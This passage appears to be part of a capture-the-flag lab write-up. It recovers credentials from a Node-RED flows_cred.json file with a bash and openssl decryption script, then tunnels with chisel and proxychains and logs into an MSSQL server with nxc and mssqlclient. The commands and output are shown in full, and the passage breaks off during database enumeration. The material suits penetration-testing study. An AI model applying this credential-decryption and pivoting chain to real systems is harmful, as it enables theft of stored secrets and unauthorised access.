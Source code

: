 Yet, we find identical folder in
```
nodered_svc@nodered:~/.node-red$ cat flows_cred.json 
{
    "$": "7f5ab122acc2c24df1250a302916c1a6QT2eBZTys+V0xdb7c6VbXMXw2wbn/Q3r/ZcthJlrvm3XLJ8lSxiq+FAWF0l3Bg9zMaNgsELXPXfbKbJPxtjkD9ju+WJrZBRq/O40hpJzWoKASeD+w2o="
}
```

The creds can be related to `SQL.tengu.vl`. There's a [blog](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/) describing the way to decrypt the passwords in Node-Red

![](3.png)

Let's decrypt the password
```
#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1/flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`
```

We managed to decrypt the password
```
└─$ ./decrypt_password.sh node_red_data                          
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"<REDACTED>"}}
```

We have to use chisel to get access to mssql port. After establishing socks tunnel we can finally access the mssql with found credentials
```
└─$ proxychains -q nxc mssql 10.10.157.38 -u nodered_connector -p <REDACTED> --local-auth
MSSQL       10.10.157.38    1433   SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:tengu.vl)
MSSQL       10.10.157.38    1433   SQL              [+] SQL\nodered_connector:<REDACTED> 
```

Let's access it with `mssqlclient`
```
└─$ proxychains -q mssqlclient.py nodered_connector:'<REDACTED>'@10.10.157.38            
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Dev
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL): Line 1: Changed database context to 'Dev'.
[*] INFO(SQL): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (nodered_connector  nodered_connector@Dev)>
```
We don't have executin privileges, but there's `demo` database
```
SQL (nodered_connector  nodered_connector@Dev)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   

tempdb                   0   
```